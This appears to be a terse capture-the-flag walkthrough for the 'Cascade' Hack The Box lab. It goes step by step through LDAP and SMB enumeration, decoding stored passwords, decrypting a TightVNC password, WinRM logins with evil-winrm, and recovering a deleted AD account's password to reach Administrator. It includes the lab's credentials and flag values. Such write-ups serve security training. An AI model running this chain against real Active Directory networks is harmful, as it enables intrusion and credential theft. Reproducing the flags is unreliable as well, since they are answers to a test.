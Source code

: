 ping 10.10.10.182
whatweb 10.10.10.182 -> get error

echo "10.10.10.182 cascade.htb" >> /etc/hosts

nmap cascade.htb
nmap -sCV -O cascade.htb
nmap -p- --min-rate 10000 cascade.htb

RPC 445 and TCP 445 SMB
rpcclient -U "" -N cascade.htb (anonymous login)
enumdomusers -> get user names

TCP 389 LDAP
ldapsearch -H ldap://cascade.htb -x -s base namingcontexts (enumarate)
ldapsearch -H ldap://cascade.htb -x -b "DC=cascade,DC=local" > dumped-ldap
ldapsearch -H ldap://cascade.htb -x -b "DC=cascade,DC=local" '(ObjectClass=person)' > dumped-people

inside dumped-data, find Ryan Thompson (r.thompson:clk0bjVldmE=)
echo 'clk0bjVldmE=' | base64 -d
rY4n5eva
r.thompson:rY4n5eva

crackmapexec smb -u r.thompson -p rY4n5eva cascade.htb --shares

smbclient --user r.thompson --password rY4n5eva //cascade.htb/data
mask ""
prompt OFF
recurse ON
mget *

take a look on Meeting_Notes_June_2018.html -> Steve Smith

cat "VNC Install.reg"
get "Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f (TightVNC)

install vncpwd (https://github.com/jeroennijhof/vncpwd)
compile -> run make or gcc -o vncpwd vncpwd.c d3des.c

../vncpwd <(echo '6bcf2a4b6e5aca0f' | xxd -r -p)
s.smith:sT333ve2

crackmapexec winrm cascade.htb -u s.smith -p sT333ve2 (Pwn3d!)
evil-winrm -i cascade.htb -u s.smith -p sT333ve2

cd ..
cat Desktop/user.txt -> get flag (bf64f659bd466e9ecb0fa27ab1c8a9ef)
net user s.smith
net localgroup "Audit Share"

crackmapexec smb -u s.smith -p sT333ve2 cascade.htb --shares -> find Audit$
smbclient --user s.smith --password sT333ve2 //cascade.htb/Audit$
mask ""
prompt OFF
recurse ON
mget *

file DB/Audit.db -> Sqlite 3.x
sqlite3 DB/Audit.db
.tables
select * from DeletedUserAdult
select * from Ldap -> arksvc info (arksvc:BQO5l5Kj9MdErXx6Q6AGOw==)
select * from Misc -> nothing

cat RunAudit.bat -> program runs CascAudit.exe (.NET) with args

copy files to Windows machine
install DNSpy (https://github.com/dnSpy/dnSpy)
open CascAudit.exe -> namespace CascAudiot
mark breakpoint on line 53 (sqliteConnection.Close())
debug program with DB/Audit.db location on arguments
on center bottom division (Locals), find the password
arksvc:w3lc0meFr31nd

crackmapexec winrm cascade.htb -u arksvc -p w3lc0meFr31nd (Pwn3d!)
evil-winrm -i cascade.htb -u arksvc -p w3lc0meFr31nd

net user arksvc -> AD Recycle Bin (https://blog.netwrix.com/2021/11/30/active-directory-object-recovery-recycle-bin/)

Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -> get TempAdmin
Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property * -> get cascadeLegacyPwd : YmFDVDNyMWFOMDBkbGVz

echo YmFDVDNyMWFOMDBkbGVz | base64 -d
TempAdmin:baCT3r1aN00dles, i.e., Administrator:baCT3r1aN00dles (remember what was written in the email)

crackmapexec winrm cascade.htb -u administrator -p baCT3r1aN00dles
evil-winrm -i cascade.htb -u administrator -p baCT3r1aN00dles

cd c:\Users\Administrator\Desktop
more root.txt -> get flag (fbd4d4faaf5d7a27696b133ab79db962)